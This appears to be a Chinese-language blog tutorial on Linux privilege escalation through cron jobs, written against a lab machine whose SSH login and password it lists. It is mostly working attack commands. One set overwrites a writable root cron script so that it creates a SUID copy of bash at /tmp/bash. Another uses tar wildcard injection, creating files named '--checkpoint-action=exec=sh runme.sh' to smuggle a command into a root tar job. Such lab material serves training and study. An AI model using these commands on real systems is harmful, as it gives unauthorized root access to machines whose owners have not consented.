 ```yaml
---
title: linux计划任务提权
categories:
- linux
tags:
- linux
---
```


```
靶机地址
ssh user@192.168.28.131
password123
```
## 计划任务中的相对路径&绝对路径

制作的视频教程：https://www.bilibili.com/video/BV1wA411Y79Q/
```
#查看计划任务
cat /etc/crontab
cat 
#查找sh脚本
find / -name "overwrite.sh" 2>/dev/null

#查看权限
ls -al /usr/local/bin/overwrite.sh
-rwxr--rw- 1 root staff 40 May 13  2017 /usr/local/bin/overwrite.sh
Linux 权限模型通过允许给每个文件系统对象设置三种独立的权限级别来工作 — 它们为文件的所有者、文件的组以及所有其他用户。
```
---

```
cat /usr/local/bin/overwrite.sh

echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh

chmod +x /home/user/overwrite.sh
/tmp/bash -p
```

## 通配符与进度条提权
```
cat /usr/local/bin/compress.sh
 
对tar cxf的解释：https://whale3070.github.io/linux/2017/01/01/%E5%8E%8B%E7%BC%A9%E4%B8%8E%E8%A7%A3%E5%8E%8B%E7%BC%A9/

tar命令与checkpoint：https://www.gnu.org/software/tar/manual/html_section/tar_26.html

echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/runme.sh
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=sh\ runme.sh
touch /home/user/--checkpoint-action=exec="sh runme.sh"

---
**　(1)   -b, --blocking-factor BLOCKS **

**                  BLOCKS x 512 bytes per record**

                ** 这个用于计算一个记录块是大小．是５１２的倍数**

**　　（２）--checkpoint
           display progress messages every NUMBERth record (default 10)**

　　　　**这个用进度条显示信息，检测数据点的位置，是record为单位**

　**　（３）--checkpoint-action=ACTION
           execute ACTION on each checkpoint**

**　　　这个是每个checkpoint，可以自定义输出你想的信息**
```
## 计划任务——sh文件覆盖
```
cat /etc/crontab
ls -l /usr/local/bin/overwrite.sh

#root权限运行
chmod o=rw /usr/local/bin/overwrite.sh
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' >> /usr/local/bin/overwrite.sh
```
## 参考资料

[https://github.com/sagishahar-zz/lpeworkshop](https://github.com/sagishahar-zz/lpeworkshop)
[利用通配符进行Linux本地提权](http://www.yidianzixun.com/article/0JgQeL8j?searchword=linux)
